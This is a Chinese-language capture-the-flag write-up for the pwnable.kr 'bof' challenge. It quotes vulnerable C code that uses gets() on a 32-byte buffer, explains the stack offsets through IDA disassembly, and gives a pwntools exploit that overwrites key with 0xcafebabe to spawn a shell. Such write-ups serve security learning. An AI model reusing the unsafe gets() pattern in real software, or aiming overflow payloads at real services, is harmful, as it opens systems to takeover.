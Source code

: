 ## Toddler's Bottle
### bof
打开bof.c可以看到源代码，需要让 key == 0xcafebabe 但key已经被给定。` gets(overflowme);	// smash me!` 提示用栈溢出覆盖原有值。<p>
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```
下载 bof 文件ida反汇编后得到：<p> ![ida](https://github.com/ormosiaL/pwnable_writeup/blob/main/img/bof_main.jpg)<p> 

> dword 双字 就是4个字节 <p> ptr 即指针  pointer <p> [ ] 里的数据是一个地址值，这个地址指向一个双字型数据 <p> mov eax, dword ptr [1234]  即把内存地址1234中的双字型（32位）数据赋给eax 

> 当堆栈地址是正偏移量时IDA把它识别为参数，负偏移量将被识别为变量，并具有 var_ 前缀 <p> argc = dword ptr 8  即输入的第一个参数argc 的偏移量是+8<p>

双击argc 后可跳转到 stack of main 页面，也可以看到 `agrc 的栈偏移量为+00000008` <p>![stackofmain](https://github.com/ormosiaL/pwnable_writeup/blob/main/img/bof_stackofmain.jpg)<p> 

查看伪代码：(如果F5不能显示伪代码，可能是程序和ida的操作系统不匹配，试试换成32位/64位ida) <p> ![pseudo](https://github.com/ormosiaL/pwnable_writeup/blob/main/img/bof_pseudo.jpg)<p> 
双击查看func ：<p> ![func](https://github.com/ormosiaL/pwnable_writeup/blob/main/img/bof_func.jpg)<p> 
get(s) 处存在栈溢出，s 的偏移量为 -2c，所以构造52个字符（0x08+0x2c = 0x34）即可以溢出到key ，从而使得key变为所需值0xcafebabe <p>
exp:
```
from pwn import *
r = remote("pwnable.kr",9000)
payload = "a"*52+p32(0xcafebabe)
r.send(payload)
r.interactive()
```